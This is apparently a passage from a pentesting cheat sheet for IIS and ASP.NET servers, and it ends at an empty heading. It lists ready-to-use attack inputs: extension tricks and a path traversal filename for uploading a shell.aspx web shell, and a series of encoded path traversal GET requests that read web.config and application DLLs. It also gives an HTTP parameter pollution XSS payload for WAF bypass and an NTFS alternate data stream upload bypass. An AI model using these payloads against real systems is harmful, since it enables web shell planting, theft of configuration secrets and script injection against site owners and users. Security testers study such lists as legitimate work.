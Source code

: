 ```
.stm
.shtm
.shtml
```

![image](https://github.com/user-attachments/assets/831b95ae-2c63-42f0-ba5e-13f0ee1868ec)

```
shell.aspx
shell.aspx.
shell.aspx..
shell.aspx...

and other extensions (.asp, .ashx, .config)
```

## Upload shell via path traversal:

`Create shell file with next filename ../../../../shell.aspx and upload`

## Path traversal via vulnerable parameter:

```
GET /download_page?id=..%2f..%2fweb.config HTTP/1.1
GET /download_page?id=web.config HTTP/1.1
GET /download_page?id=../web.config HTTP/1.1
GET /download_page?id=../../web.config HTTP/1.1
GET /download_page?id=..%2f..%2fViews/web.config HTTP/1.1
GET /download_page?id=..%2f..%2fMinded/Views/web.config HTTP/1.1
GET /download_page?id=..%2f..%2fbin/WebApplication1.dll HTTP/1.1
GET /download_page?id=..%2f..%2fbin/System.Web.Mvc.dll HTTP/1.1
GET /download_page?id=..%2f..%2fbin/System.Web.Mvc.Ajax.dll HTTP/1.1
GET /download_page?id=..%2f..%2fbin/System.Web.Mvc.Html.dll HTTP/1.1
GET /download_page?id=..%2f..%2fbin/System.Web.Optimization.dll HTTP/1.1
GET /download_page?id=..%2f..%2fbin/System.Web.Routing.dll HTTP/1.1
```

## HPP Pollution for WAF bypass:

`> https://site.com/page?parameter=<svg/&parameter=onload=alert(1)>`

## Bypass File Upload Restrictions Using Alternate Data Streams (ADS):

IIS often restricts certain file types for upload. You can bypass this restriction by using NTFS Alternate Data Streams.

`Upload file as: shell.aspx::$DATA`

This will still treat the file as shell.aspx, allowing it to be executed.

## Directory Traversal via URL Encoding:
